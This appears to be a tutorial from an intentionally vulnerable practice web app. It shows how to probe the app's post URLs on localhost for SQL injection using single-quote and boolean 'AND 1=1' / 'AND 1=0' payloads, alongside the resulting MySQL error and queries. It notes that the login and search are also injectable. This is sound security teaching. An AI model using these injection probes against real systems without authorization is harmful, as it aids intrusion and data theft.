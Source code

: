 
# Testing the application for SQLi

Testing the app for finding SQL injections vulnerabilies is quiet simple:
you need to find every variable and check if it is escaped or not before passed to the db engine. Just add a single quote, like this:
```shell
http://localhost:8080/p/2/slug-name-post'
http://localhost:8080/p/2'/slug-name-post
```

You should get and error for response:
```javascript
{
  "status": "Error",
  "message": "ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1"
}
```

This error means that the variable is passed unescaped to the database, getting this query:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21'
```

You can also pass a **condition** that is **true**, like this:
```shell
http://localhost:8080/p/2 AND 1=1/slug-name-post
```

This should return the post (id=2) and the query looks like:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21 AND 1=1
```

Finally you can pass a **condition** that is **false**, like this:
```shell
http://localhost:8080/p/2 AND 1=0/slug-name-post
```

This should return and error. The query looks like this:
```javascript
SELECT posts.id,title,body,date,tags,username,firstname,lastname,avatar 
FROM posts INNER JOIN users ON posts.userId = users.id 
WHERE posts.id = 21 AND 1=0
```

The app is also vulnerable in other parts like login and search.
Is up to you to check them out.